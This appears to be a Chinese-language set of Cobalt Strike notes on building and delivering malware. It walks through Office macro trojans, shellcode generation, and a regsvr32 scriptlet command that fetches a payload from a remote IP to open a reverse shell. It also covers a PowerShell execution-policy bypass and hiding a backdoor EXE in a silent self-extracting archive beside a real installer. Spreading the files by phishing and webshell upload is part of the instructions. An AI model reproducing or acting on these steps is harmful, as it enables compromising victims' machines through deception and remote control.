 #### MS Office Macro 宏病毒 
1. 为文档添加宏, 保存
	1. 生成木马->Office宏木马->选择监听器生成
	2. 打开任意office文件, Excel or Word
	3. 在office中点击视图->宏->输入宏名->创建宏
	4. 选择宏的位置为当前文档(ThisDocument)
	5. 点击CS中的copy Macro粘贴到宏命令处->创建
	6. Office可能提示"以下内容无法保存在未启用宏的文档中"选择否, 另存为**docm文件**
2. 上传至目标机器, 目标机点击后上线
	- 通过互联网邮箱, 社交媒体, 论坛传播
	- 诱导点击
	- 目标机上的Office需要启用宏功能

#### Payload Generator
生成各类语言的Shellcode
- `C`, `C#`, `COM Scriptlet`, `Java`, `Perl`, `Powershell`, `Powershell Command`, `Python`, `Raw`, `Ruby`, `Veil`, `VBA`

##### COM Scriptlet
一种COM对象, 可以在HTML文件中嵌入脚本代码, 并在客户端的浏览器中执行, 当浏览器打开HTML页面时, COM Scriptlet会被自动加载和执行.
`regsvr32`命令用于注册COM组件, 是Winodws提供的用来向系统注册或下载的命令, 以命令行方式运行
1. 生成`payload.sct`文件, 不勾选`Use x64`
2. 执行本地`Com Scriptlet`获取反向shell
```
regsvr32.exe /n /s /u /i:payload.sct scrobj.dll
```
2. 执行远程`Com Scriptlet`获取反向shell, 托管到文件服务器或使用CS的Host File功能
```
regsvr32 /u /s /i:http://124.71.45.28:809/do/file.ext scrobj.dll
```

##### Others
- Powershell
```
powershell -ep bypass -f payload.ps1
```
- Powershell Command: 生成一句话powershell命令
- Raw: 原始shellcode字节码

##### Veil
配合Veil-Framework框架使用的shellcode
https://github.com/Veil-Framework/Vei
https://rioasmara.com/2021/05/30/veil-evasion-in-cobalt-strike-beacon/

#### Windows Executable 后门木马
- 生成分阶段的攻击载荷
	- Windows EXE
	- Windows Service EXE
	- Windows DLL
1. 生成可执行文件监听器(Windows Executable)
2. 使用一个正常可用的exe程序, 与生成的木马文件共同压缩勾选"Create SFX archive"选项, 然后点击高级选项(Advance)
	- General->选择自解压目录为"C:/Users/Public"
	- Modes->静默解压(Hide all)
	- Setup->解压后自动运行->"C:\\Users\\Public\\xxx.exe"; 换行"C:\\Users\\Public\\ChromeSetup.exe 先执行木马文件
	- Update->"Extract and update files"; "Overwrite all files"
3. 更改名称, 更改图标(使用restorator), 免杀还可以选择加壳
4. 上传至目标机器
	- 通过webshell上传, 运行
	- 通过互联网传播, 钓鱼
